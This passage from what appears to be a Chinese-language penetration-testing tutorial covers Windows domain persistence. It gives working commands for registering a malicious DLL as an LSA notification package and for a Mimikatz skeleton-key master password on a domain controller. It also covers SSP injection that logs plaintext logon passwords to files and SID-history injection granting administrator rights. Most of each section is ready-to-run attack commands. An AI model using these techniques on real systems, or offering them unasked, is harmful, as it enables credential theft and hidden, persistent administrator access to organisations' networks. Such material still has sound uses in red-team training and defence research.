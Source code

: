 然后把这个 dll 文件放入 system32 文件，然后修改注册表，使 hklm\system\currentcontrolset\control\lsa 的 notification packages 表项包括我们的恶意 dll 文件，具体命令行操作如下

```
REG ADD "HKLMSYSTEMCurrentControlSetControlLsa" /v "Notification Packages" /t REG_MULTI_SZ /d "evildll" /f
```

重启后生效。无奈的是我把 dll 文件写出来了且确保是正确的，在 win7 和 win2012 上复现均失败，网上成功的例子是 win2008server，可惜我并没有这个版本的虚拟机不过原理倒是懂了

**十三、万能密码**
-----------

运用 mimkatz 可以在域控机上对所有用户添加一个统一密码用来登录.

```
mimikatz# privilege::debugmimikatz# misc::skeleton
```

然后所有用户都能用密码 mimiaktz 登陆了

**十四、SSP 注入**
-------------

ssp: 一个 DLL 文件，用来实现 Windows 身份验证功能，比如 kerberos，ntlm。系统启动时 SSP 会被自动加载入 lsass.exe  
sspi:SSP 的 API 接口

如果我们自定义个恶意 dll 文件让他在系统启动时自动加载到 lsass.exe, 就能得到进程中的明文密码

临时性注入 (重启便失效)

```
mimikatz# privilege::debugmimiaktz# misc::memssp
```

执行如上命令, 然后只要目标机器不重启，在目标机器上登录的用户名和密码将会被记录在 C:\Windows\System32\mimilsa.log 文件中。

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMess2aqO9g29NUSicQftmBERfYtzwUIfKDzMuiaNh0ZnpQNF0nI90nicdg/640?wx_fmt=png)

长期性注入（重启不失效）

把 mimikatz 中的 mimilib.dll 放到系统的 C:\Windows\System32\ 目录下，并将 mimilib.dll 添加到注册表中，使用这种方法，即使系统重启，也不会影响持久化效果。

修改注册表 HKEY_LOCAL_MACHINE/System/CurrentControlSet/Control/Lsa 的 Security Packages 项，加载新的 DLL 文件

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMAvl5O0GNl2lXuyRxVwWMj4c6Kypz6fxjfNyBtSQEc1FZ6cIJ3ibVO6Q/640?wx_fmt=png)

用户在登录时输入的账号密码将会被记录在 C:\Windows\System32\kiwissp.log

**十五、SID History 后门**
---------------------

sid history: 当我们把域 A 的用户 x 迁移到域 B 时，B 域中 x 的 sid 会发生改变，随即而来的是权限也会发生改变。所以为了避免这种权限改变，sid history 诞生了， 系统会将其原来的 SID 添加到迁移后用户的 SID History 属性中，使迁移后的用户保持原有权限、能够访问其原来可以访问的资源 。

在域控上

```
privilege::debugsid::patchsid::add /sam:const27 /new:administrator 将administrator的SID添加到const27的sid history属性
```
